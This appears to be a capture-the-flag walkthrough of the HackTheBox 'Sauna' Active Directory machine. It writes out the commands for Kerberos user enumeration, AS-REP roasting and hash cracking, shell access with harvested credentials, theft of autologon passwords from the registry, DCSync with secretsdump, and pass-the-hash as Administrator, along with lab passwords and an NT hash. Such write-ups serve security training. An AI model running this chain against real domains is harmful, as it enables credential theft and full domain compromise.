Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.129.14.91
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-05 00:57 CDT
Nmap scan report for 10.129.14.91
Host is up (0.19s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49677/tcp open  unknown
49698/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.51 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49673,49674,49677,49698 10.129.14.91
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-05 00:58 CDT
Nmap scan report for 10.129.14.91
Host is up (0.19s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-05 12:58:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-05T12:59:47
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m00s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.77 seconds
```

I saw 80 port was open. This is little weird that active directory server also has web page.Let’s examine this.



When we first scroll down the page. We found out that there werre names but there were like client 1, client 2, etc.



So we started directory brute forcing as the question asked was What is the name of the HTML file that reveals the names of users working at the target company?. While directory brute forcing was going on we explore the page more and when we clicked on "About us" , the names which were previously shown as client 1, client 2 are now rendering as below.





Let’s write them into a file called users and change them into different form.



You can use tool above called username anarchy to put them into different form.

https://github.com/urbanadventurer/username-anarchy?source=post_page-----38254a63ebd9---------------------------------------



**Here, we can use different forms of naming conventions.**

https://infosecwriteups.com/hackthebox-sauna-write-up-7c1423a37088

https://0xdf.gitlab.io/2020/07/18/htb-sauna.html

I’ tried anonymous connections to the SMB shares, but no luck:



### Kerberos - UDP (and TCP) 88

Without creds, one thing I can check on Kerberos is brute-focing user names. I’ll use [Kerbrute](https://github.com/ropnop/kerbrute) to give this a run, and it finds four unique usernames. 
After getting some usernames. We would be using the Impacket tool which has a GetNPUsers python script that returns the TGT(Ticket Granting Ticket) only if the user account doesn’t need kerberos per-authentication.

https://github.com/ropnop/kerbrute.git





```sh
./kerbrute userenum -d egotistical-bank.local --dc 10.129.14.91 /home/siddhesh279/Desktop/sauna/username-anarchy/usernames.txt
```



and we see fsmith user exists in domain that is kerberos pre-authentication disabled. It means he is vulnerable to asrep-roasting attack that enable us to brute force hash in offline but hash kerbrute gave us is not proper for hashcat. Let’s try to get hash via GetNPUsers.py from impacket.

```sh
impacket-GetNPUsers egotistical-bank.local/ -usersfile /home/siddhesh279/Desktop/sauna/username-anarchy/usernames.txt -outputfile tgt.txt -dc-ip 10.129.14.91
```



Cracked the generated hash.



OR

```sh
hashcat -m 18200 tgt.txt /usr/share/wordlists/rockyou.txt
```

`fsmith : Thestrokes23`


Well, let’s verify if the credentials are correct using crackmapexec or netexec.

```sh
nxc smb 10.129.14.97 -u fsmith -p Thestrokes23
```



Let’s try whether this user has right of remote connection. And, yes we got the shell and captured the user flag.

```sh
evil-winrm -i 10.129.14.97 -u fsmith -p Thestrokes23
```



### Privilege Escalation

We ran the bloodhound, in this case sharphound.

```PS
.\SharpHound.exe -c All
```





On the left, look for _Outbound Object Control_ — items that this user has rights over. In this case, there is one:



Clicking the “1” adds that item to the graph:



This account has access to GetChanges and GetChangesAll on the domain. While looking at GetChanges help, we found we can abuse it using mimikatz:

After examining fsmith user, i could not find anything useful to compromise domain but svc_loanmgr user is interesting to me because if we seize this user, we will be able to perform dcsync attack to directly domain.After searching i found svc_loanmgr user credential in winlogon registry key. Windows [Autologon](https://learn.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/turn-on-automatic-logon) is a feature that allows a user to configure their Windows operating system to automatically log on to a specific user account, without requiring manual input of the username and password at each startup.

```sh
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```



`svc_loanmanager : Moneymakestheworldgoround!`

We have now svc_loanmgr user that is able to perform dcsync attack against domain.Let’s dump credential via secretdump.py.

```sh
impacket-secretsdump egotistical-bank.local/svc_loanmgr@10.129.14.97
```



We could dump dc ntlm hash and have administrator nt hash in hand.Let’s try to login via psexec or evil-winrm.

```sh
evil-winrm -i 10.129.14.97 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e

OR

impacket-psexec administrator@10.129.14.97 -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```





Reference links :

https://medium.com/@mu.aktepe18/sauna-walk-through-htb-38254a63ebd9

https://infosecwriteups.com/hackthebox-sauna-write-up-7c1423a37088

https://0xdf.gitlab.io/2020/07/18/htb-sauna.html

https://medium.com/@hughbrown123/walk-through-hints-sauna-htb-8ae80b214b67

https://olivierkonate.medium.com/hackthebox-sauna-698fcb26c180

https://infosecwriteups.com/htb-sauna-c6a452b5e0a6

